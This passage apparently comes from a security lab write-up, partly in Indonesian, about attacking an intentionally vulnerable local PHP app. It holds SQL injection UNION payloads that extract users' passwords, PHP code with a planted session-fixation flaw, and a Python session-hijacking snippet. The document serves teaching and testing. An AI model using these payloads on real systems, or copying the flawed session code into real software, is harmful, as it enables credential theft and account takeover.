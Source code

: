 #### **Step 4: Data Extraction**
```sql
-- Extract database version
' UNION SELECT 1,version(),user(),1--

-- Extract table names
' UNION SELECT 1,table_name,2,3 FROM information_schema.tables--

-- Extract user data
' UNION SELECT 1,username,password,role FROM users--
```

### 📊 **Vulnerability Impact**
- **Authentication Bypass**: Possible with certain payloads
- **Data Extraction**: User credentials, database structure
- **Database Error Disclosure**: Technology stack revealed
- **Potential Data Modification**: INSERT, UPDATE, DELETE operations

---

## 5. Attack Scenario 4: Session Fixation

### 🎯 **Objective**
Menetapkan session ID yang dikendalikan attacker untuk korban

### 🔍 **Vulnerability Analysis**
```php
// Di index.php - Session fixation vulnerability (broken implementation)
if (isset($_GET['sessionid'])) {
    session_id($_GET['sessionid']); // Vulnerable: Allows session fixation
    session_start();
}
```

**🚨 Implementation Issue:**
Vulnerability ini tidak berfungsi karena `config.php` sudah memanggil `session_start()` sebelumnya.

### 📝 **Step-by-Step Attack (Theoretical)**

#### **Step 1: Attacker Preparation**
```
http://localhost:8081?sessionid=ATTACKER_CONTROLLED_SESSION
```

#### **Step 2: Victim Interaction**
1. Attacker mengirim link ke korban
2. Korban mengklik link dan login
3. Server menggunakan session ID yang ditetapkan attacker

#### **Step 3: Session Hijacking**
```python
# Attacker menggunakan session ID yang sudah ditetapkan
known_session_id = "ATTACKER_CONTROLLED_SESSION"
attacker_session = requests.Session()
attacker_session.cookies.set('PHPSESSID', known_session_id)
```
